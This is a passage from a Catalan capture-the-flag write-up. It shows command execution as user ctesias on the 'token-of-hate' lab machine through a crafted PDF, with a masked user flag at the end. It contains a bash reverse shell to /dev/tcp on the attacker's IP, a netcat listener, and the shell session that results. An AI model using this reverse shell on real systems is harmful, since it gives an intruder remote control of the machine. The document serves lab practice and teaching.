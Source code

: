 Tornem a descarregar un altre fitxer PDF i obtenim execució de comandes amb l’usuari `ctesias`.

![alt text](../../../assets/images/token-of-hate/image-15.png)

Modifiquem la primera variable `command` del nostre javascript al fitxer `script.js`, introduint la IP de la nostra màquina atacant.

```javascript
var command = "bash -c 'bash -i >& /dev/tcp/192.168.1.181/12345 0>&1'";
```

Ens posem a escoltar amb netcat pel port `12345` i després creem un altre document PDF.

```bash
$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [192.168.1.181] from (UNKNOWN) [192.168.1.117] 40170
bash: no se puede establecer el grupo de proceso de terminal (497): Función ioctl no apropiada para el dispositivo
bash: no hay control de trabajos en este shell
ctesias@tokenofhate:/$ 
```

Aconseguim entrar a la màquina víctima com a usuari `ctesias`.

![alt text](../../../assets/images/token-of-hate/image-16.png)

Podem llegir la flag de user.txt.

```bash
tesias@tokenofhate:~$ cat user.txt
cat user.txt
98XXXXXXXXXXXXXXXXXXXXXXXXXXXXa3
```
